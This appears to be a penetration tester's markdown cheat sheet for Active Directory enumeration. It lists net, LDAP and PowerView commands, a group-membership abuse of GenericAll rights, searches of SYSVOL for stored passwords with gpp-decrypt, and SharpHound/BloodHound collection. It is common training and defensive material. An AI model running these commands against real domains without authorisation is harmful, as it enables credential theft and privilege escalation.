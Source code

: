 # Active Directory

## Native enumeration

```
net user /domain
net user someuser /domain
net group /domain
net group "Some Group With Whitespaces" /domain
```

## Ldap enumeration

https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype

```
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```
In a shell:
```
Import-Module .\myscript.ps1
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.properties | select {$_.cn}, {$_.member} }
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Depart*))"
$group.properties.member
```

## Powerview

https://powersploit.readthedocs.io/en/latest/Recon/

### Users and groups

```
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Some Department" | select member
```

### Operating System

```
Get-NetComputer
Get-NetComputer | select operatingsystem, dnshostname
```

### Permissions and logged users

```
Find-LocalAdminAccess
Get-NetSession -ComputerName somehostname
Get-NetSession -ComputerName somehostname -Verbose
Get-Acl -Path HKLM:System\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | format-list
C:\PSTools\PsLoggedon.exe \\somehostname
```
Warning: PsLoggedon.exe needs the service `Remote Registry` on the target

### Service accounts

```
cmd > setspn -L some_service
PS > Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Object permissions

```
Get-ObjectAcl -Identity someuser
Convert-SidToName S-1-5-21-domainidentifiernumber-relativeidentifier
Get-ObjectAcl -Identity "Some Departm*" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"sid1", "sid2", "sid3" | convert-sidtoname
```
Example of misconfiguration:
```
net group "Misconfigured Department" alreadyhackeduser /add /domain
Get-NetGroup "Mis*Dep*" | select member
net group "Misconfigured Department" hackeduser /del /domain # cleanup and check
Get-NetGroup "Mis*Dep*" | select member
```
Known IDs: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers

### Domain shares

Password and hash searches in network shares:
```
> Find-DomainShare
> ls \\pc.domain.com\sysvol\domain.com
> ls \\pc.domain.com\sysvol\domain.com\Policies
> cat \\pc.domain.com\sysvol\domain.com\Policies\suspicious-policy-file.xml
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork\directory-with-secret-files
```
Example of password decryption:
```
kali$ gpp-decrypt "string-found-in-some-password-file"
```
Sysvol: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx

## Automated AD enumeration

### SharpHound

```
PS > Import-Module c:\path\to\Sharphound.ps1
Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory c:\Users\hackeduser\Desktop -OutputPrefix "some_file_prefix"
ls c:\Users\hackeduser\Desktop
```

### BloodHound

```
sudo apt install neo4j
sudo apt install bloodhound
sudo neo4j start
bloodhound > upload data > more info > analysis > find shortest paths to domain admins
```

